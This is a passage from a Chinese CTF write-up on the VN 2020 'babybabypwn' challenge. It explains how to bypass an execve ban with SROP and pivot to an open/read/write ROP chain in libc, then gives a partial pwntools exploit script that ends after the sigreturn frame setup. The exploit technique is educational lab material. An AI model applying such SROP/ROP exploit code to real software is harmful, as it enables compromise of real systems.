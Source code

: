 #### 例题 VN 2020 公开赛 babybabypwn

题目给了libc地址并开启了pie，其逻辑是禁用了execve后允许向栈中写入数据，再进行`sigreturn`系统调用

由于没有找到ctf-wiki中介绍的形如`syscall; ret;`的gadget来进行多次SROP调用，并且也没有程序基地址，只能使用libc中的gadget构造rop链，所以SROP的时候控制程序跳转read函数，在libc上已知地址的可写段写入rop链调用orw三个函数，并控制rsp指向rop链

exp：

```python
#!/usr/bin/python3

from pwn import *
import sys
import time

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='babybabypwn'
libc_name='/lib/x86_64-linux-gnu/libc.so.6'

libc=ELF(libc_name)
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('', )



def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

ru('Here is my gift: 0x')
libcbase=int(ru('\n')[:-1],16)-0x766b0
print('[+]libcbase: '+hex(libcbase))
        
stack=libcbase+0x1c1000
o=libcbase+libc.sym['open']
r=libcbase+libc.sym['read']
w=libcbase+libc.sym['puts']

frame=SigreturnFrame()
frame.rsp=stack
```
